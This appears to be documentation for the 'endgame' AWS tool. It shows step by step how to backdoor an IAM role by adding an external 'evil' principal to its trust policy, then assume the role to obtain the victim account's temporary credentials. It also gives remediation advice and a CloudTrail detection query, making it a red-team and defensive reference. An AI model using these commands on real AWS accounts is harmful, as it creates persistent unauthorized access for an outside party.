 # IAM Roles (via AssumeRole)

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* Alternatively, to expose the resource using the AWS CLI:

Create a file titled `Evil-Trust-Policy.json` with the following contents:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```


Apply the evil Assume Role Policy by running the following from the victim account:

```bash
aws iam update-assume-role-policy --role-name test-resource-exposure --policy-document file://Evil-Trust-Policy.json
```

* To view the contents of the Assume Role Policy that grants access to the evil user, run the following:

```bash
aws iam get-role --role-name test-resource-exposure
```

* Observe that the output of the overly permissive AssumeRolePolicy match the example shown below.

## Example

Observe that the content of the `AssumeRolePolicyDocument` key allows `sts:AssumeRole` access from the evil principal (`arn:aws:iam::999988887777:user/evil`)

```json
{
    "Role": {
        "Path": "/",
        "RoleName": "test-resource-exposure",
        "RoleId": "",
        "Arn": "arn:aws:iam::111122223333:role/test-resource-exposure",
        "CreateDate": "2021-02-13T19:21:51Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "",
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "ec2.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                },
                {
                    "Sid": "AllowCurrentAccount",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::111122223333:root"
                    },
                    "Action": "sts:AssumeRole"
                },
                {
                    "Sid": "Endgame",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::999988887777:user/evil"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Tags": [
            {
                "Key": "Owner",
                "Value": "yourmom"
            }
        ],
        "RoleLastUsed": {}
    }
}
```

## Exploitation

* Set your AWS Access keys to the Evil Principal (`arn:aws:iam::999988887777:user/evil`) credentials

* Verify that you can run `sts:AssumeRole` to the victim account

```bash
aws sts assume-role --profile evil --role-arn arn:aws:iam::111122223333:role/test-resource-exposure --role-session-name HotDogsAreSandwiches
```

* The output will contain `AccessKeyId`, `SecretAccessKey`, and `SessionToken` below. Note the values.

```
{
    "Credentials": {
        "AccessKeyId": "",
        "SecretAccessKey": "",
        "SessionToken": "",
        "Expiration": "2021-02-13T21:24:46Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "roleid:HotDogsAreSandwiches",
        "Arn": "arn:aws:sts::111122223333:assumed-role/test-resource-exposure/HotDogsAreSandwiches"
    }
}
```

* Set those values to your AWS credentials environment variables

```bash
export AWS_ACCESS_KEY_ID=outputfromAccessKeyId
export AWS_SECRET_ACCESS_KEY=outputfromSecretAccessKey
export AWS_SESSION_TOKEN=outputfromSessionToken
```

* To validate that you are leveraging the victim's credentials, run `aws sts get-caller-identity` (this API Call is the equivalent of `whoami`)

```bash
aws sts get-caller-identity
```

* Observe that the output of the call contains the Victim Account ID under `Account`, as well as an ARN that indicates you have assumed the victim role.

```
{
    "UserId": "AROAblah:HotDogsAreSandwiches",
    "Account": "111122223333",
    "Arn": "arn:aws:sts::111122223333:assumed-role/test-resource-exposure/HotDogsAreSandwiches"
}
```

* Congratulations! You've created a backdoor role in the victim's account 😈


## Remediation

* **Trusted Accounts Only**: Ensure that IAM roles can only be assumed by trusted accounts and the trusted principals within those accounts.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Assume IAM Roles. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your IAM Roles**: Tightly control access to the following IAM actions:
      - [iam:UpdateAssumeRolePolicy](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAssumeRolePolicy.html): _Grants permission to update the policy that grants an IAM entity permission to assume a role_
      - [iam:GetRole](https://docs.aws.amazon.com/IAM/latest/APIReference/API_GetRole.html): _Grants permission to retrieve information about the specified role, including the role's path, GUID, ARN, and the role's trust policy_
      - [iam:ListRoles](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ListRoles.html): _Grants permission to list the IAM roles that have the specified path prefix_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='iam.amazonaws.com' and eventName='UpdateAssumeRolePolicy'
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [update-assume-role-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/update-assume-role-policy.html)
* [Learn more about IAM cross-account trust](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_common-scenarios_aws-accounts.html)